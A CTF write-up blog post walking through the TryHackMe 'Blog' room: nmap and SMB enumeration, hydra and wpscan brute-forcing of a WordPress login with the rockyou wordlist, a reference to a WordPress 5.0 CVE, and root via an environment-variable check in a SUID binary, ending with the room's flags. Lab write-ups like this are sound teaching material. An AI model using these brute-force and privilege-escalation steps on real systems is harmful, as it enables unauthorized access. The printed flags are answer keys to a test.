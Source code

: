 ```yaml
---
title: "Blog - TryHackMe"
author: Ludovic COULON
date: 2020-07-17
hero: ./images/hero.png
excerpt: "Writeup for the Blog CTF challenge"
---
```


[TryHackMe | Blog](https://tryhackme.com/room/blog)

Welcome to Blog room, a puzzle-style CTF. Collecting the item, solving the puzzle and escaping the nightmare is your top priority.

Can you survive until the end?If you have any question, do not hesitate to DM me on the discord channel.

![https://images.unsplash.com/photo-1486312338219-ce68d2c6f44d?ixlib=rb-1.2.1&ixid=eyJhcHBfaWQiOjEyMDd9&auto=format&fit=crop&w=1352&q=80](https://images.unsplash.com/photo-1486312338219-ce68d2c6f44d?ixlib=rb-1.2.1&ixid=eyJhcHBfaWQiOjEyMDd9&auto=format&fit=crop&w=1352&q=80)

Photo by [Glenn Carstens-Peters](https://unsplash.com/@glenncarstenspeters?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText) on [Unsplash](https://unsplash.com/s/photos/blog?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)

Billy Joel made a blog on his home computer and has started working on it. It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it! Billy has some
weird things going on his laptop. Can you maneuver around and get what
you need? Or will you fall down the rabbit hole...

In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file.

Credit to [Sq00ky](https://tryhackme.com/p/Sq00ky) for the root privesc idea ;)

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.37.237
```

```bash
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3hfvTN6e0P9PLtkjW4dy+6vpFSh1PwKRZrML7ArPzhx1yVxBP7kxeIt3lX/qJWpxyhlsQwoLx8KDYdpOZlX5Br1PskO6H66P+AwPMYwooSq24qC/Gxg4NX9MsH/lzoKnrgLDUaAqGS5ugLw6biXITEVbxrjBNdvrT1uFR9sq+Yuc1JbkF8dxMF51tiQF35g0Nqo+UhjmJJg73S/VI9oQtYzd2GnQC8uQxE8Vf4lZpo6ZkvTDQ7om3t/cvsnNCgwX28/TRcJ53unRPmos13iwIcuvtfKlrP5qIY75YvU4U9nmy3+tjqfB1e5CESMxKjKesH0IJTRhEjAyxjQ1HUINP
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJtovk1nbfTPnc/1GUqCcdh8XLsFpDxKYJd96BdYGPjEEdZGPKXv5uHnseNe1SzvLZBoYz7KNpPVQ8uShudDnOI=
|   256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICfVpt7khg8YIghnTYjU1VgqdsCRVz7f1Mi4o4Z45df8

80/tcp  open  http        syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-generator: WordPress 5.0
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog

139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

445/tcp open  netbios-ssn syn-ack Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
| nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   BLOG<00>             Flags: <unique><active>
|   BLOG<03>             Flags: <unique><active>
|   BLOG<20>             Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 28514/tcp): CLEAN (Couldnt connect)
|   Check 2 (port 48324/tcp): CLEAN (Couldnt connect)
|   Check 3 (port 42470/udp): CLEAN (Timeout)
|   Check 4 (port 36313/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2020-07-12T19:07:26+00:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-07-12T19:07:26
|_  start_date: N/A
```

As you can see there is a SMB server open with the guest credentials, let's see what's inside of the server.

```bash
➜  blog smbclient -L 10.10.37.237
Enter WORKGROUP\kali password:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        BillySMB        Disk      Billy's local SMB Share
        IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

![https://imgur.com/BMgqkDa.png](https://imgur.com/BMgqkDa.png)

![https://imgur.com/ONKwYZa.png](https://imgur.com/ONKwYZa.png)

```bash
➜  blog steghide extract -sf Alice-White-Rabbit.jpg
Enter passphrase:
wrote extracted data to "rabbit_hole.txt".
➜  blog cat rabbit_hole.txt
You've found yourself in a rabbit hole, friend.
```

Let's see if we can enumerate some username to brute-force the administration page of WordPress

![https://imgur.com/ttyfVpD.png](https://imgur.com/ttyfVpD.png)

Nice, we have the username : bjoel, kwheel

Brute-force with hydra

```bash
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1&redirect_to:blog.thm/wp-admin/'
```

With wpscan

```bash
wpscan --url blog.thm -U kwheel -P /usr/share/wordlists/rockyou.txt --password-attack wp-login
```

![https://imgur.com/NFazDUA.png](https://imgur.com/NFazDUA.png)

![https://imgur.com/3UG7eKi.png](https://imgur.com/3UG7eKi.png)

On the website you can see the CVE let's try it 🥺

![https://imgur.com/dl0F04t.png](https://imgur.com/dl0F04t.png)

![https://imgur.com/5T7o6Jf.png](https://imgur.com/5T7o6Jf.png)

### #1 root.txt

```bash
find / -xdev -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

![https://imgur.com/BdKvKff.png](https://imgur.com/BdKvKff.png)

With Ghidra I reverse engineering the binary 🐉

```c
int main(void) {
  char *adminEnv = getenv("admin");

  if (adminEnv == (char *)0x0) {
    puts("Not an Admin");
  } else {
    setuid(0);
    system("/bin/bash");
  }

  return 0;
}
```

Exploit

```bash
$ export admin=SOMTHINGHERE
# Execute the bin
$ /usr/sbin/checker
```

Nice ! You now have the root privilege 🤩

```bash
root@blog:/dev/shm: cat /root/root.txt
cat /root/root.txt
9a0b2b618bef9bfa7ac28c1353d9f318
```

### #2 user.txt

```bash
root@blog:/dev/shm:: find / -type f -name "user.txt" 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt

root@blog:/dev/shm: cat /media/usb/user.txt
c8421899aae571f7af486492b71a8ab7
```

### #3 Where was user.txt found?

```bash
/media/usb
```

### #4 What CMS was Billy using?

```bash
Wordpress
```

### #5 What version of the above CMS was being used?

![https://imgur.com/9JSk8SX.png](https://imgur.com/9JSk8SX.png)

```bash
5.0
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/p0h00A1.png" alt="TryhackMeProfile" />
  </a>
</center>
